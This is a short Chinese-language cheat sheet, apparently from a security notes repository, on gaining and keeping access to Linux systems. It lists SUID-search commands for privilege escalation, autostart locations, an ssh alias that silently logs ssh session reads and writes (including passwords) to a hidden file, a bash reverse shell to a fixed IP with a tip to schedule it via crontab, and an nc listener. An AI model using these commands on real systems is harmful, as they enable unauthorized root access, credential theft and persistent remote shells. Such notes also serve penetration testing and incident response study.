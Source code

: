 持久化 - Linux
========================================

权限提升
----------------------------------------
- 内核漏洞利用
- 攻击有root权限的服务
- 利用第三方服务提权
- 通过有SUID属性的可执行文件
    - 查找可能提权的可执行文件
    - ``find / -perm +4000 -ls``
    - ``find / -perm -u=s -type f 2>/dev/null``
    - ``find / -user root -perm -4000 -print 2>/dev/null``
    - ``find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null``
- 利用可用的root权限
    - ``sudo -l``
- 利用误配置的 crontab 任务

自启动
----------------------------------------
- /etc/init.d
- /etc/rc.d/rc.local
- ~/.bashrc
- ~/.zshrc

后门
----------------------------------------
- ssh 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
    - 后门账户

- 反弹Shell
    - ``bash -i >& /dev/tcp/192.168.28.131/12345  0>&1``
        - 可用于添加``crontab -e`` 周期性反弹
        - ``nc -lvp 12345`` 监听
- 常见应用
    - ICMP
    - DNS
- icmp后门
- 后门端口复用
- ``.`` 开头隐藏文件
- rootkit


参考链接
----------------------------------------
- `Linux 持续化 <https://bypass007.github.io/Emergency-Response-Notes/privilege/%E7%AC%AC4%E7%AF%87%EF%BC%9ALinux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81--%E5%90%8E%E9%97%A8%E7%AF%87.html>`_